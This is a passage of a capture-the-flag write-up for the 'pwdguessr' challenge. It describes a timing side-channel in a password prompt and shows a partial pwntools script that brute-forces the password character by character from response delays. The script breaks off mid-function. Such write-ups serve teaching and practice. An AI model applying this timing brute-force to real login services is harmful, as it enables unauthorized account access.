 Connecting to the challenge with `nc pwdguessr.chal.cybears.io 2323` shows the prompt
```
Welcome, user 5909559.
Please enter your password: 
```
The initial welcome user with ID changes on each connection, this hints at something we discover later which
is that every connection the password changes.

Entering a random password lead to a brief pause, followed by the response
```
Sorry, that password was incorrect. Please enter your password: 
```
!!! note
    The response does not end with a newline, so `recvline` will not work while scripting this

### Bruteforce

To get a better idea of the passwords, a script was written to iteratively bruteforce character by character,
continuing whenever an attempted password does not cause a 500ms delay.

!!! note
    Script requires `pwntools` for providing a nice wrapper around the socket and `tqdm` for progress bars

After a bit of iterating on the script due to realizing a timeout occurred after a while, it looked like
```python
import string
from pwn import *
from tqdm import tqdm

alphabet = string.ascii_lowercase + string.digits + string.ascii_uppercase
host = "pwdguessr.chal.cybears.io"
port = 2323
r = remote(host, port)
user_line = r.recvline().decode()
user = user_line.split(" ")[-1][:-2]
r.recvuntil("Please enter your password: ")

class SuccessfulConnection(Exception):
    pass

class Timeout(Exception):
    pass

class NotFound(Exception):
    pass

def check(password):
    before = time.time()
    r.sendline(password)
    out = r.recv(5)
    if out != b"Sorry":
        if out == b"Conne":
            raise Timeout
        raise SuccessfulConnection(out.decode())
    after = time.time()
    r.recvuntil("Please enter your password: ")
    delta = after - before
    return delta < 0.5

def main(password: str = ""):
    log.setLevel("DEBUG")
    while True:
```